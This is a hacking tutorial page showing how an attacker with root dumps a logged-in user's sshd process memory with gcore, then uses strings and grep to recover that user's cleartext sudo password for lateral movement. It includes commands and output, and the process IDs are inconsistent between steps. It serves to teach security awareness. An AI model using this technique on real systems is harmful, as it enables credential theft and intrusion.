 ```yaml
---
description: Once you have root on a server the game is over.
---
```


# Getting passwords of logged in users

The hardest part of hacking a system is the external perimeter, once you break that down and manage to gain access to a internal system, the game is pretty much over. All you then need to do is escalate your priveleges to root.

## an Attacker can read clear text passwords of other users.

You may think this is not possible, but it is quite easy to read passwords of users that are logged in. especially if they are logged in via SSH.

Let me guide you through such an attack which you could call moving laterally. I have access to one syste, but can I gain access to another.

**Scenario Setup:**

* a Guild has 5 servers running their operations and 4 employees that have access to those servers.
* Each employee gains access to all servers using their password and private keys.
* A hacker manages to exploit a hole in the organisations webserver and escalates their priveleges to root.
* Later that day an Employee called Andre logs into the organisation webserver.
* Andre performs some actions which require sudo.

In this example we phave created a dummy user called **Andre** with password `Loop19278fhtht`

Even though the attacker has root, he can't read Andre's password from /etc/passwd as this is all encrypted.

### Let me introduce you to Gcore.

> A _core file_ or _core dump_ is a file that records the memory image of a running process and its process status.

**There are the steps an attacker can take to see Andre's password in clear text.**

1. He installs gdb \(which contais the gcore utility\)
2. Looks for SSH processes using ps.

```bash
charles@instance-1:/etc$ ps -ef | grep ssh
root      1655     1  0 May29 ?        00:00:09 /usr/sbin/sshd -D
root     26334  1655  0 20:17 ?        00:00:00 sshd: charles [priv]
charles  26370 26334  0 20:17 ?        00:00:00 sshd: charles@pts/0
root     29467  1655  0 21:06 ?        00:00:00 sshd: Andre [priv]
Andre    29503 29467  0 21:06 ?        00:00:00 sshd: Andre@pts/1
charles  29551 26371  0 21:07 pts/0    00:00:00 grep --color=auto ssh
```

3. Attacker identifies user Andre is logged on with PID 29503 and runs gcore.

```bash
charles@instance-1:/etc$ sudo gcore 29467
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x00007fb85ba4d7f0 in __poll_nocancel () at ../sysdeps/unix/syscall-template.S:84
84      ../sysdeps/unix/syscall-template.S: No such file or directory.
Saved corefile core.29467
```

4. Read the core dump using strings and passing grep to look for the SUDO command. _\(strings pulls out clear text from binary files\). **Important tool for a hacker**_

```bash
strings core.29503  | grep sudo -A 4 -B 6
136 packages can be updated.
4 updates are security updates.
New release '18.04.4 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
*** System restart required ***
Last login: Fri Jul 17 21:01:33 2020 from 94.2.33.22
$ sudo ls
[sudo] password for Andre: 
obal address wou
ecdsa-sha2-nistp256-cert-v01@openssh.com,ecdsa-sha2-nistp384-cert-v01@openssh.com,ecdsa-sha2-nistp521-cert-v01@openssh.com,ssh-ed25519-cert-v01@openssh.com,ssh-rsa-cert-v01@openssh.com,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,ssh-ed25519,rsa-sha2-512,rsa-sha2-256,ssh-rsa
3484 
Andre
--
pam_deny.so
/home/Andre
%bw+s
94.2.33.22
SSH-2.0-libssh2_1.9.0_DEV
94.2.33.22
sudo ls
Loop19278fhtht
e@libssh2.org
xterm
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```

And as you can see the password is listed in the core dump on line 22 right after the command `sudo ls`

## So what is the main take away here.

The main take away from this exercise is to show you how easy it is for an attacker to move laterally once he has a foot in the door. He can do so by not just gainng access to your other servers, but also very easily start harvesting the credentials of other users.

And now that he has access to the Andre's password he can sudo into Andre's account and look at all his previous bash history too. 

So make sure your systems are secure, because once they are in, its GAME OVER.




